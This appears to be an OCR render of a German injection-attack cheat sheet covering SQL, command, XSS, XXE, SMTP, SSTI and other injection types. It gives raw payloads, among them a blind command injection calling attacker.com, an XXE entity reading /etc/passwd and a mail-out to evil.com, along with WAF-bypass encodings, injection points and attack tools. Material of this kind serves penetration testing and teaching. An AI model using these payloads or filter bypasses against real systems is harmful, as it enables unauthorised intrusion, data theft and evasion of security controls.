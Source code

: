 | Typ                                | Ziel                 | Beschreibung                           |
| ---------------------------------- | -------------------- | -------------------------------------- |
| **SQL Injection**                  | Datenbanken          | Manipulation von SQL-Abfragen          |
| **Command Injection**              | Shell                | Ausführung systemweiter Befehle        |
| **LDAP Injection**                 | Directory Services   | Manipulation von LDAP-Filterausdrücken |
| **XSS** (Reflektiert, Stored, DOM) | Browser              | Einschleusen von JavaScript            |
| **XML Injection / XXE**            | XML-Parser           | Zugriff auf Files, SSRF über XML       |
| **NoSQL Injection**                | MongoDB, CouchDB     | Manipulation von JSON-Queries          |
| **SMTP Injection**                 | Mailserver           | Einschleusen von Mail-Kommandos        |
| **CRLF Injection**                 | HTTP Header          | HTTP-Response Splitting                |
| **XPath Injection**                | XML-Datenbank        | Manipulation von XPath-Ausdrücken      |
| **SSI Injection**                  | Server-Side Includes | Serverseitige Codeausführung           |
| **Host Header Injection**          | HTTP-Header          | SSRF, Reset-Links hijacken             |
| **Template Injection (SSTI)**      | Template Engines     | Server-Side Code Execution             |
| **GraphQL Injection**              | GraphQL APIs         | Query-Manipulation und introspection   |

' " ` ; ) ( < > ${} || && //


'; WAITFOR DELAY '0:0:5'--        # SQLi Time

| sleep 5                         # Command Inj.

`nslookup attacker.com`          # Blind CMD

"><script>alert(1)</script>      # XSS

<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]> # check original

" | mail -s pwn me@evil.com      # SMTP Inj.

| Typ          | Tool                                | Zweck                |
| ------------ | ----------------------------------- | -------------------- |
| SQLi         | `sqlmap`, `Burp`, `sqlitebrowser`   | Vollautomatisierung  |
| CMD          | `Commix`, `Burp`, `curl`            | Command Exec         |
| XSS          | `XSStrike`, `Dalfox`, `XSScrapy`    | Kontextanalyse       |
| XML / XXE    | `Burp`, `XXEinjector`, `xmlstarlet` | File Read, SSRF      |
| SSTI         | manuell / `tplmap`                  | Template-Injektion   |
| LDAP / XPath | manuell                             | Logikfehler erzeugen |
| NoSQL        | `NoSQLMap`, `Burp`                  | JSON-Manipulation    |


**Bypassing WAFs & Filters:**
| Technik              | Beispiel                          |
| -------------------- | --------------------------------- |
| URL-Encoding         | `%27` statt `'`                   |
| Doppel-Encoding      | `%2527`                           |
| Keyword-Splitting    | `SEL/**/ECT`                      |
| Case-Bypass          | `SeLeCt`                          |
| Whitespaces ersetzen | `+`, `%09`, `%0a`                 |
| Comments             | `UN/**/ION/**/SELECT`             |
| Obfuscation          | `char(97)+char(100)+char(109)...` |

| Kontext       | Beispiel-Injektion             |   |                |
| ------------- | ------------------------------ | - | -------------- |
| GET-Parameter | `/index.php?id=1' -- `         |   |                |
| POST-Body     | `username=admin' -- `          |   |                |
| JSON-API      | `{"user":"admin' -- "}`        |   |                |
| HTTP-Header   | \`User-Agent: '                |   | sleep(5) -- \` |
| Cookies       | `Cookie: session=1' or '1'='1` |   |                |
| URL-Path      | `/product/' OR 1=1--`          |   |                |


| Indikator              | Bedeutung                        |
| ---------------------- | -------------------------------- |
| SQL-Fehler             | `mysql_fetch...`, `syntax error` |
| Verzögerung            | Time-Based Blind                 |
| Ungewöhnliche Ausgaben | z. B. `uid=0(root)`              |
| Reflektierter Payload  | XSS wahrscheinlich               |
| Zugriff auf Files      | XXE, CMD                         |
| Statuscode 500/403/301 | Filterung oder WAF               |
